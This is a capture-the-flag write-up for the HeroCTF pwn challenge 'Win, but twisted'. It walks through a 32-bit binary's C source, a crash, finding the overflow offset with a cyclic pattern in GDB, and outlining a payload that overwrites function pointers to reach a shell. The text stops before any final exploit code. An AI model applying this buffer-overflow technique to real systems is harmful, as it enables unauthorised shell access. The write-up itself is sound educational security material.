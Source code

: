 # Win, but twisted

![Screenshot_16](https://user-images.githubusercontent.com/67475596/116267591-d833f880-a77c-11eb-90da-a6fcc7751806.png)

In this challenge we were given a binary and a C file, let's analyze them.
```C
#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

#include <sys/types.h>



int UNLOCKED = 0;



void set_lock()

{

    printf("Setting lock !");

    UNLOCKED = 1;

}



void shell()

{

    printf("In shell function ! ");

    if (UNLOCKED == 1)

    {

        printf("Getting shell ! ");

        setreuid(geteuid(), geteuid());

        system("/bin/sh");

    }



    

}



void hello_hero(int hero)

{

    printf("It looks like that's something a Hero would say\n");

}



void look_like()

{

    printf("Please keep being one. :)\n");

}



int main()

{

    int (*look)() = look_like;

    int (*hello)() = hello_hero;

    char buffer[32];



    printf("What would a hero say ?\n>>> ");

    fgets(buffer, 44, stdin);

    hello();

    look();



}
```
```
file WinButTwisted
WinButTwisted: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=30d5731a2385816deab25ce8684e2de08b24846f, for GNU/Linux 4.4.0, not stripped
```
Security:
```bash
checksec WinButTwisted
[*] '/home/kali/Desktop/CTF/HeroCTF/pwn/WinButTwisted'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Uhhm it seems crashed.. 
```bash
./WinButTwisted       
What would a hero say ?
>>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./WinButTwisted
```
Now let's find the exactly offset for our padding.
Create a cyclic string in python with the Pwntools library.
```bash
>>> cyclic_metasploit(40)
b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A'
```
Run the binary into GDB 
```gdb
gef➤  r
Starting program: /home/kali/Desktop/CTF/HeroCTF/pwn/WinButTwisted 
What would a hero say ?
>>> Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A

Program received signal SIGSEGV, Segmentation fault.
0x31624130 in ?? ()
──────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x31624130 ("0Ab1"?)
$ebx   : 0x080e9000  →  0x00000000
$ecx   : 0x080ecde9  →  0x00000000
$edx   : 0xfbad0088
$esp   : 0xffffd0bc  →  0x08049add  →  <main+118> mov eax, DWORD PTR [ebp-0xc]
$ebp   : 0xffffd0f8  →  0x00000800
$esi   : 0x080e900c  →  0x0806d190  →  <__strcpy_ssse3+0> endbr32 
$edi   : 0x0804823c  →  0x00000000
$eip   : 0x31624130 ("0Ab1"?) 
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
──────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd0bc│+0x0000: 0x08049add  →  <main+118> mov eax, DWORD PTR [ebp-0xc]       ← $esp
0xffffd0c0│+0x0004: 0x080e9094  →  0x080ea8c0  →  0x00000000
0xffffd0c4│+0x0008: 0x00000000
0xffffd0c8│+0x000c: "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0cc│+0x0010: "a1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0d0│+0x0014: "2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0d4│+0x0018: "Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0d8│+0x001c: "a5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x31624130
────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "WinButTwisted", stopped 0x31624130 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────── trace ────
───────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```
Here we can see that our EIP register has been overwritten by the pattern 
```gdb
$eip   : 0x31624130 ("0Ab1"?) 
```

Now we have the ingredients to calculate the offset
```bash
>>> cyclic_metasploit_find(0x31624130)
32
```

Analyzing the C code we can see that we have an input with the fgets(), we can take advantage of this function to jump to the set_lock() function that will set the global variable UNLOCKED to 1, this operation will then allow us to jump to the shell() function, the condition if (UNLOCKED == 1) will then be true and we will have a shell opened by the command system("/bin/sh");
so at this point we can get the flag

Now what we need is the address of the set_lock() function and that of shell()

the payload will be structured as follows:
Payload = PADDING + set_lock()_address + shell()_address
